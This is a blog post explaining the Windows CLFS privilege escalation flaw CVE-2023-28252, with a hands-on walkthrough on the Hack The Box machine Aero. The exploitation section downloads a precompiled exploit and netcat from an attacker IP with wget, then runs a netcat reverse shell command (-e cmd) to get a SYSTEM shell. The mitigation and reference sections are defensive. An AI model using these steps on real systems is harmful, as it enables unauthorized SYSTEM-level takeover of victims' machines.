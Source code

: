 +++
tags = ["Windows", "Active Directory", "CVE-2023-28252", "CLFS"]
draft = false
title = "Understanding CVE-2023-28252: Deep Dive into the CLFS Privilege Escalation Vulnerability"
author = "bloodstiller"
date = 2024-11-05
toc = true
bold = true
next = true
+++

## Understanding CVE-2023-28252: A Deep Dive into CLFS Privilege Escalation {#understanding-cve-2023-28252-a-deep-dive-into-clfs-privilege-escalation}

CVE-2023-28252 represents a critical vulnerability in Microsoft's Common Log File System (CLFS) that allows local privilege escalation to SYSTEM.


### What is CLFS? {#what-is-clfs}

The Common Log File System (CLFS) is a logging subsystem introduced in Windows Server 2003 R2. Unlike traditional logging systems, CLFS provides:


#### Component Overview {#component-overview}

```text
CLFS Architecture:
├── Log Container
│   ├── Base Log File (.blf)
│   └── Container Files (.clf)
├── Stream Management
│   ├── Virtual Log Files
│   └── Log Blocks
└── Client Interface
    ├── User Mode API
    └── Kernel Mode API
```


#### Key Features {#key-features}

-   Transactional logging with ACID properties
-   High-performance sequential I/O operations
-   Crash recovery capabilities
-   Structured storage for log records


### Technical Deep Dive {#technical-deep-dive}


#### Vulnerability Details {#vulnerability-details}

The vulnerability exists in the CLFS driver (CLFS.SYS) and involves:

-   Memory allocation issues in the CLFS driver
-   Improper validation of user-controlled input
-   Potential for heap corruption leading to privilege escalation


### Real-World Exploitation Example {#real-world-exploitation-example}

-   This was performed on the hack the box machine Aero:
    -   <https://app.hackthebox.com/machines/Aero>


#### Available Proof of Concept {#available-proof-of-concept}

A pre-compiled exploit is available at:

-   <https://github.com/duck-sec/CVE-2023-28252-Compiled-exe>
-   **Note**: This exploit allows passing another binary as an argument for privileged execution


#### Initial Setup and Exploitation {#initial-setup-and-exploitation}

After discovering the target is vulnerable to CVE-2023-28252, we locate a suitable pre-compiled exploit:

-   <https://github.com/duck-sec/CVE-2023-28252-Compiled-exe>
-   **Note**: This exploit allows us to pass another binary as an argument, which is ideal for obtaining a reverse shell as NT/Authority

-   **Clone the Exploit**:
    ```bash
       git clone https://github.com/duck-sec/CVE-2023-28252-Compiled-exe.git
    ```

-   **Transfer Required Files to Target**:
    First, transfer the exploit:
    ```bash
       wget http://10.10.14.121:9000/exploit.exe -o ex.exe
    ```
    {{< figure src="/ox-hugo/2024-11-04-194403_.png" >}}

    Then, transfer netcat for the reverse shell:
    ```bash
       wget http://10.10.14.121:9000/nc64.exe -o nc64.exe
    ```
    {{< figure src="/ox-hugo/2024-11-04-194156_.png" >}}

-   **Setup Reverse Shell Listener**:
    On the attack machine:
    ```bash
       rlwrap -cAr nc -nvlp 443
    ```
    {{< figure src="/ox-hugo/2024-11-04-194636_.png" >}}

-   **Execute Exploit**:
    Trigger the exploit with netcat as the payload:
    ```bash
       .\ex.exe 1208 1 "C:\Users\sam.emerson\Documents\nc64.exe 10.10.14.121 443 -e cmd"
    ```
    {{< figure src="/ox-hugo/2024-11-04-194705_.png" >}}
    - **Command breakdown**:
        - `.\ex.exe`: The compiled exploit executable
        - `1208`: Process ID to target
        - `1`: Execution mode flag
        - Netcat parameters:
          - `10.10.14.121`: Attacker's IP address
          - `443`: Port to connect back to
          - `-e cmd`: Execute cmd.exe and bind it to the connection

-   **Confirm Privilege Escalation**:
    Successfully receive NT/Authority SYSTEM shell:
    - ![](/ox-hugo/2024-11-04-194750_.png)


### Impact Analysis {#impact-analysis}


#### Affected Systems Matrix: {#affected-systems-matrix}

| Windows Version | Architecture | Vulnerable |
|-----------------|--------------|------------|
| Server 2022     | x64          | Yes        |
| Server 2019     | x64          | Yes        |
| Windows 11      | x64          | Yes        |
| Windows 10      | x64          | Yes        |


### Detection and Prevention: {#detection-and-prevention}


#### Mitigation Strategies: {#mitigation-strategies}

1.  **System Updates**:
    -   Apply latest Windows security updates
    -   Enable automatic updates

2.  **Access Controls**:
    -   Implement principle of least privilege
    -   Monitor and restrict access to CLFS-related operations

3.  **System Monitoring**:
    -   Monitor for suspicious CLFS operations
    -   Track privilege escalation attempts


### References: {#references}

1.  [Microsoft Security Advisory](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-28252)
2.  [CVE-2023-28252 Details (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2023-28252)
3.  [Bleeping Computer Analysis](https://www.bleepingcomputer.com/news/security/windows-zero-day-vulnerability-exploited-in-ransomware-attacks/)
4.  [Duck-Sec's POC Repository](https://github.com/duck-sec/CVE-2023-28252-Compiled-exe)
5.  [Rapid7's](https://www.rapid7.com/blog/post/2023/04/11/patch-tuesday-april-2023/)
6.  [For a very deep dive Fortra.com](https://www.coresecurity.com/core-labs/articles/analysis-cve-2023-28252-clfs-vulnerability)
